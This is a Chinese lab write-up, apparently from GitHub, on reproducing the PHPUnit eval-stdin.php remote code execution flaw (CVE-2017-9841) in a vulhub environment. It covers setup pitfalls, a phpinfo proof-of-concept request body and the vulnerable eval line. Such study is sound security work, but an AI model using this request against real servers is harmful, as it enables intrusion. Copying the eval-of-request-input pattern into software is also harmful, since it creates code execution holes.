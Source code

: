 漏洞环境使用vulhub  
复现分析参考：  
https://github.com/vulhub/vulhub/tree/master/phpunit/CVE-2017-9841  
https://stackoverflow.com/questions/43408604/php7-install-ext-dom-issue

# 漏洞复现中遇到的坑：  
0、执行命令“docker-compose build”后，还需执行它提示的命令“... composer require phpunit/phpunit:5.6.2; ...”（这在其他的漏洞复现环境中是少见的）  
1、执行命令“composer require phpunit/phpunit:5.6.2”时，会提示不建议使用root账户执行此命令，但不影响执行  
2、执行命令“composer require phpunit/phpunit:5.6.2”时，需要耐心的等待一会，时间可能较长（我就是因为没看到输出，以为没在下载，而耽误时间）  
3、执行完命令“composer require phpunit/phpunit:5.6.2”，会报错，提示需要“ext-dom”，解决方案是执行“apt install php-xml”  
4、执行完上述命令，再执行“composer require phpunit/phpunit:5.6.2”，还是报错，提示需要“PHP extension mbstring”，解决方案是执行“apt install php-mbstring”，至此，能够成功通过composer安装phpunit:5.6.2  
5、执行命令“docker-compose up -d”，启动环境，访问127.0.0.1:8080，却提示“403 forbidden”，解决方案是访问127.0.0.1

# 漏洞利用
访问http://172.16.35.128/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php ，burp拦截请求包，直接在get请求的body中添加
```
<?=phpinfo()?>
```
成功执行phpinfo()

# 漏洞分析：  
phpunit是php中的单元测试工具，其4.8.19 ~ 4.8.27和5.0.10 ~ 5.6.2版本的vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php文件有如下代码：
```
eval('?>'.file_get_contents('php://input'));
```
eval：执行php代码  
file_get_contents：从第1个参数处获取内容，参数可以是url地址  
php://input：是一个只读的输入流，其实就是引用post请求中的内容
